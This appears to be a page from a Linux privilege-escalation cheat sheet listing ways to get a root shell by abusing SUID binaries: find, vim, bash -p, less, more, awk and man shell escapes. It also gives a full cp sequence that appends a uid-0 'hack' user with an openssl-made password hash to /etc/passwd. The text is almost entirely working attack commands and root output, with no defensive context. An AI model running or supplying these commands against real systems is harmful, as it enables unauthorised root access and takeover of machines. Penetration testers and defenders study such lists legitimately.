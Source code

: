 >touch test
>find test -exec "whoami" \;
>find test -exec "/bin/bash" \;

### Vi/vim

>vim  
>:set shell=/bin/sh  
>:shell

### bash

>bash -p
>bash-3.2# id
>uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

### less

>less /etc/passwd
>!/bin/sh

### more

>more /home/pelle/myfile
>!/bin/bash

### cp

>#覆盖 `/etc/shadow` 或 `/etc/passwd`
>cat /etc/passwd >passwd
>openssl passwd -1 -salt hack hack123
>$1$hack$WTn0dk2QjNeKfl.DHOUue0
>echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd
>cp passwd /etc/passwd
>su - hack
>Password:
> id
> uid=0(hack) gid=0(root) groups=0(root)
> cat /etc/passwd|tail -1
> hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash

### mv

>覆盖 `/etc/shadow` 或 `/etc/passwd`

### awk

>awk 'BEGIN {system("/bin/sh")}'

### man

>man passwd
>!/bin/bash

